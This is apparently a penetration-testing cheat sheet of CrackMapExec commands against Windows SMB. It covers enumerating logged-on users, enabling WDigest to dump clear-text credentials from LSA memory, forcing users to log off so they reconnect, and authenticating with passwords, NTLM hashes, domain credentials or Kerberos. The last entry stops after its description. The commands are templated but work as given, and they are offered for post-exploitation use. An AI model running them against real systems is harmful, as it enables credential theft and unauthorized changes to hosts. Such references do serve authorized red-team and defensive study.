 ## CME - Enumerate Logged-on Users (SMB)
Enumerates users currently logged on to the target.
#plateform/linux #target/remote #port/445 #port/139 #protocol/smb #cat/RECON 

```bash
cme smb <ip> -u <user> -p '<password>' --loggedon-users
```

## CME - Enable WDigest (SMB)
Enables/disables the WDigest provider to dump clear-text credentials from LSA memory.
#plateform/linux #target/remote #port/445 #port/139 #protocol/smb #cat/POSTEXPLOIT  #warning/modify_target 

```bash
cme smb <ip> -u <user|Administrator> -p '<password>' --local-auth --wdigest enable
```

## CME - Logoff User (SMB)
Can be useful after enabling WDigest to force a user to reconnect.
#plateform/linux #target/remote #port/445 #port/139 #protocol/smb #warning/modify_target #cat/POSTEXPLOIT

```bash
cme smb <ip> -u <user> -p '<password>' -x 'quser'
cme smb <ip> -u <user> -p '<password>' -x 'logoff <id_user>' --no-output
```

## CME - Local Authentication (SMB)
Authenticates using local credentials.
#plateform/linux #target/remote #port/445 #port/139 #protocol/smb #cat/ATTACK/CONNECT  

```bash
cme smb <ip> -u <user> -p <password> --local-auth
```

## CME - Local Authentication with Hash (SMB)
Authenticates using a local NTLM hash.
#plateform/linux #target/remote #port/445 #port/139 #protocol/smb #cat/ATTACK/CONNECT 

```bash
cme smb <ip> -u <user> -H <hash> --local-auth
```

## CME - Domain Authentication (SMB)
Authenticates using domain credentials.
#plateform/linux #target/remote #port/445 #port/139 #protocol/smb #cat/ATTACK/CONNECT  

```bash
cme smb <ip> -u <user> -p <password> -d <domain>
```

## CME - Kerberos Authentication (SMB)
Authenticates using Kerberos (requires KRB5CCNAME environment variable set).
#plateform/linux #target/remote #port/445 #port/139 #protocol/smb #cat/ATTACK/CONNECT 
